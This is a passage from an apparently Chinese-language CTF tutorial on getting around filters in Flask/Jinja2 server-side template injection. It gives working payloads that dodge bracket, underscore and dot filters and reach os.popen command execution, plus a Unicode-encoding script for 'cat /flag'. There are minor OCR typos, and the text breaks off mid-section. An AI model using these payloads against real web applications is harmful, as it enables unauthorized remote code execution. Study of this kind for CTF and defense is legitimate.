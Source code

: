 <font style="color:rgb(77, 77, 77);">例如：当中括号被过滤时，就用下述方法来代替[]</font>

```plain
__getitem__( )代替[ ]
```

### <font style="color:rgb(79, 79, 79);">3、</font>**<font style="color:rgb(78, 161, 219) !important;">request</font>**<font style="color:rgb(79, 79, 79);">方法绕过：</font>
<font style="color:rgb(77, 77, 77);">request在flask中可以访问基于 HTTP 请求传递的所有信息</font>

```plain
request.args.key  #获取get传入的key的值
request.form.key  #获取post传入参数(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
reguest.values.key  #获取所有参数，如果get和post有同一个参数，post的参数会覆盖get
request.cookies.key  #获取cookies传入参数
request.headers.key  #获取请求头请求参数
request.data  #获取post传入参数(Content-Type:a/b)
request.json  #获取post传入json参数 (Content-Type: application/json)
```

### <font style="color:rgb(79, 79, 79);">4、绕过下划线过滤:</font>
可以使用Unicode编码

①‘’|attr(“__class__”)等效于‘’.__class__

②如果要使用xxx.os(‘xxx’)类似的方法，可以使用xxx|attr(“os”)(‘xxx’)

③使用flask里的lipsum方法来执行命令：flask里的lipsum方法,可以用于得到__builtins__，而且lipsum.__globals__含有os模块

得到Unicode编码的python脚本为：（以"cat /flag"为例子：）

```python
class_name = "cat /flag"
unicode_class_name = ''.join(['\\u{:04x}'.format(ord(char)) for char in class_name])
print(unicode_class_name)
```

则得到playload：

```plain
url={%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}
```

### 5、绕过点过滤
设有代码

```plain
{{().__class__.base__.__subclasses__()[117].__init__.__globals__.os.popen("ls").read()}}
```

+ **<font style="color:rgb(79, 79, 79);">中括号[]代替点</font>**

```plain
{{()['class']['base']['subclasses']()[117]['init']['globals']['os']['popen']('ls')['read']()}}
```

+ **<font style="color:rgb(79, 79, 79);">attr()绕过（当中括号也被过滤时使用）</font>**
